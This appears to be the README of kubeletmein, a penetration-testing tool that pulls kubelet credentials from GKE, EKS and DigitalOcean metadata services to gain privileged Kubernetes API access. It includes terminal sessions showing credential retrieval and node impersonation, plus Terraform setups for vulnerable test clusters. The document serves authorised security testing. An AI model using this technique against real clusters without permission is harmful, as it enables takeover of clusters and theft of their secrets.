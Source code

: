 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled.

### EKS

EKS support initially added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This has now been expanded to provide support for various different types of user-data encountered with EKS. Specifically it will support cloud-config format and shell script formats. In the latter case it tries to parse the command line arguments for `/etc/eks/bootstrap.sh` and retrieve the values it needs from there.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.14.0 and upwards is a further consolidation of the command line arguments. There is now just a single `generate` command which will try to autodetect the cloud provider by default. You can override this with the `--provider` flag if required.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein generate
2021-03-02T21:37:59Z [ℹ]  running autodetect
2021-03-02T21:37:59Z [ℹ]  EKS detected
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### DigitalOcean

```
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-10T11:57:53Z [ℹ]  running autodetect
2021-03-10T11:57:53Z [ℹ]  DigitalOcean detected
2021-03-10T11:57:53Z [ℹ]  fetching kubelet creds from metadata service
2021-03-10T11:57:53Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig.yaml
2021-03-10T11:57:53Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-10T11:57:53Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-pool-87nm2
2021-03-10T11:57:53Z [ℹ]  Using bootstrap kubeconfig to generate TLS client cert, key and kubeconfig file
2021-03-10T11:57:53Z [ℹ]  Waiting for client certificate to be issued
2021-03-10T11:57:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-10T11:57:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig.yaml get pods

root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig.yaml get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          2m30s
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - [https://registry.terraform.io/providers/hashicorp/aws/latest/docs](https://registry.terraform.io/providers/hashicorp/aws/latest/docs)

- GCP - [https://registry.terraform.io/providers/hashicorp/google/latest/docs](https://registry.terraform.io/providers/hashicorp/google/latest/docs)

- Digital Ocean - [https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs](https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-04T22:25:52Z [ℹ]  running autodetect
2021-03-04T22:25:52Z [ℹ]  GKE detected
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-node
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.

